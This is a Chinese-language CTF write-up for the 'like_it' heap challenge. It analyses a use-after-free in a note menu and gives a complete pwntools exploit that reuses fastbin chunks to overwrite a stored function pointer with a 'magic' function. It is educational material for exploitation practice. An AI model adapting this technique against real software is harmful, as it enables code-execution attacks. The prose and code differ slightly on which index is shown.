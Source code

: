 # like_it

![assets/gitbook/images-20250804173926420](assets/gitbook/images/image-20250804173926420.png)

一道菜单题，方便起见，分别把1到3的函数称为add，delete，show，首先查看一下add函数

![assets/gitbook/images-20250804174209285](assets/gitbook/images/image-20250804174209285.png)

分析一下不难发现，函数的主要逻辑是遍历notelist链表，如果链表某个节点为空那么就在该处申请0x10大小的堆块，接着将print函数的地址存储到堆块的user data的前8字节区域(前面有0x10大小的chunk_header)，然后输入接下来申请堆块的大小，接着在user data+8字节处再申请一个堆块，最后read将用户输入的内容读入到其中

delete函数

![](assets/gitbook/images/Snipaste_2025-08-04_17-54-06.png)

可以看到delete函数中free了两次，但都没有将相应的指针清零，构成UAF漏洞可以利用

show函数

![assets/gitbook/images-20250804175822860](assets/gitbook/images/image-20250804175822860.png)

输入堆块索引，调用堆块中存储的print函数

程序还给了magic函数

![assets/gitbook/images-20250804180235954](assets/gitbook/images/image-20250804180235954.png)

以上为主要函数逻辑

利用思路：

可以利用delete函数中的UAF漏洞进行利用，先申请两个大堆块(执行两次add函数，实际上堆块中包含堆块，一共4个)把第一个大堆块称为chunk0，第二个称为chunk1，申请chunk0中堆块时，内容可以随便输入，大小可为0x18,0x20,0x28...，但不能为0x10，否则后面利用UAF的时候就无法申请到print函数所在堆块的位置，不能对其进行修改，同样chunk1也不能申请0x10的堆块

```
from pwn import*

context(arch='amd64',os='linux',log_level='debug')

#p=remote('1.95.36.136',2055)
p=process('./like_it')


def add(size,content):
    p.recvuntil(b'Your choice :')
    p.sendline(b'1')
    p.recvuntil(b'Note size :')
    p.sendline(str(size))
    p.recvuntil(b'Content :')
    p.sendline(content)

def delete(index):
    p.recvuntil(b'Your choice :')
    p.sendline(b'2')
    p.recvuntil(b'Index :')
    p.sendline(str(index))

def show(index):
    p.recvuntil(b'Your choice :')
    p.sendline(b'3')
    p.recvuntil(b'Index :')
    p.sendline(str(index))

p.recvuntil(b'Hi! What do you like?')
p.sendline(b'hi,everyone')

magic=0x400cB5

add(0x20,b'aaa')#chunk0
add(0x20,b'bbb')#chunk1
```

这道题比较少见，有个def函数，里面禁用了gdb的调试功能，导致无法调试，没办法展示调试过程了。。。

然后再把申请的两个chunk给free掉，此时4个chunk中的两个0x20，两个0x30(包含了chunk_head)全处于释放状态，且位于fastbin中的0x20和0x30链表中

```
delete(1)
delete(0)
```

这里释放的顺序需要注意下，由于fastbin是单项链表，遵循先进后出的原理，所以此时两个0x20大小的free_chunk状态是

chunk0->chunk1

接下来再把两个0x20大小的chunk申请回来，add函数中第一个已经帮我们申请了0x10(chunk0)，只要在申请0x10大小(chunk1)就能申请回来，那么此时的chunk0和chunk1都指向print所在位置，且chunk1可以让我们进行修改，把它改为magic，然后再调用show(1)，执行magic拿到flag

```
add(0x10,p64(magic))
show(0)
```

完整exp

```
from pwn import*

context(arch='amd64',os='linux',log_level='debug')

#p=remote('1.95.36.136',2055)
p=process('./like_it')


def add(size,content):
    p.recvuntil(b'Your choice :')
    p.sendline(b'1')
    p.recvuntil(b'Note size :')
    p.sendline(str(size))
    p.recvuntil(b'Content :')
    p.sendline(content)

def delete(index):
    p.recvuntil(b'Your choice :')
    p.sendline(b'2')
    p.recvuntil(b'Index :')
    p.sendline(str(index))

def show(index):
    p.recvuntil(b'Your choice :')
    p.sendline(b'3')
    p.recvuntil(b'Index :')
    p.sendline(str(index))

p.recvuntil(b'Hi! What do you like?')
p.sendline(b'hi,everyone')

magic=0x400cB5

add(0x20,b'aaa')#chunk0
add(0x20,b'bbb')#chunk1
delete(1)
delete(0)
add(0x10,p64(magic))
show(0)
p.interactive()
```

